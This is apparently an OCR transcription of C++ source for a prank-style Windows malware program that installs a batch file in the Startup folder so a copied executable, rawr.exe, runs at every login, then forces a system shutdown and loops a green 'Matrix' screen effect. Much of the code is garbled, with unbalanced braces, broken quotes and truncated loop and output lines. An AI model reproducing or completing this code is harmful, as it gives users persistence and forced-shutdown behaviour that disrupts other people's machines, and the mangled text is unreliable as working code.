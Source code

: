 ifstream input(inputFile);
if (!input)
{{
ofstream fp("C:\\Documents and Settings\\AllUsers\\Start Menu\\Programs\\Startup\\rawr.bat";
ios::app);
fp << "@ECHO OFF \N";
fp << "START C:\\rawr.exe \n";
fp << "EXIT";
}}
else
{
while (!input.eof())
{
input.getline(buffer,255);
}}}
{
char buffer[255];
char inputFile[]="C:\\rawr.exe";
ifstream input(inputFile);
if (!input)
{{{
ofstream fp("CLICK.bat", ios::app);
fp << "ECHO OFF \n";
fp << "COPY matrix.exe C:\\rawr.exe \n";
fp << "START C:\\rawr.exe \n";
fp << "EXIT";
}
system("START CLICK.bat");
main();
}}
else
{
while (!input.eof())
{
input.getline(buffer,255);
system('call shutdown.exe -S");
goto START;
}}}
START:{
for(int i = 0; i<>
{
int num = (rand() % 10);
SetConsoleTextAttribute(outToScreen, FOREGROUND_GREEN | FOREGROUND_INTENSITY);
cout <<>
cout <<>
cout <<>
cout <<>
cout <<>
cout <<>
cout <<>
cout <<>
cout <<>
cout <<>
cout <<>
cout <<>
Sleep(60);
}}
for ( int j = 0; j <>
{
SetConsoleTextAttribute(outToScreen, FOREGROUND_GREEN);
int number = (rand() % 24);
cout <<>
}
goto START;